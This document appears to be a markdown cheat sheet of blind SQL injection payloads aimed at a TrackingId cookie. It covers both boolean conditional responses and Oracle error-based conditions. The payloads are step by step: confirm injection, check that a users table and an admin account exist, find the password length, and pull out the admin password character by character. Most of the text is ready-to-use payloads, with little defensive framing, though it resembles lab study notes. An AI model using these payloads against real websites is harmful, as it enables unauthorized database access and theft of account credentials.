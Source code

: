 ## Blind SQL injection
### Exploiting blind sql injection by triggering conditional responses on cookie value
1 = 1 is true, the website is going to respond with a "welcome back" message since the sql query is true
```
Cookie= TrackingId=xyz' AND '1'='1
```
1 is not = 2, then the website is not going to respond with a "welcome back" message since the sql query is false
```
Cookie= TrackingId=xyz' AND '1'='2
```
See if there is a table name users in the database, if the website respond with the message then that means there is a table name users
```
Cookie= TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
See if there is a user called admin in the table, if the website respong with the message then that means there is a user called admin
```
Cookie= TrackingId=xyz' AND(SELECT 'a' FROM users WHERE username='admin')='a
```
See if the password length is greater than 1, in this case a message will be return because it is true the password length is greater than 1
```
Cookie= TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)>1)='a
```
See if the first character of the password is equal to 'a', if it is true then the website will respond a message
```
cookie= TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a
# Keep incrementing the offset until it matches the length of the password
```

### Exploiting blind sql injection by triggering conditional error on Oracle
Confirm the server is intrepreting the injection as SQL query if the http status code is 200, this means the injection is accepted as SQL query
```
TrackingId= xyz'||(SELECT '' FROM dual)||'
```
Verify that table calles users exist
```
TrackingId= xyz'||(SELECT '' FROM users WHERE ROWNUM=1)||'
```
If an error message is received, this means the CASE query is true
```
TrackingId= xyz'||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
Check wether the username admin exists
```
TrackingId= xyz'||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='admin')||'
```
Determine how many characters are in the password
```
TrackingId= xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='admin')||'
```
See if the first character of the password is equal to 'a'. if it is true then an error will be displayed
```
TrackingId= xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0)+ELSE '' END FROM users WHERE username='admin')||'
```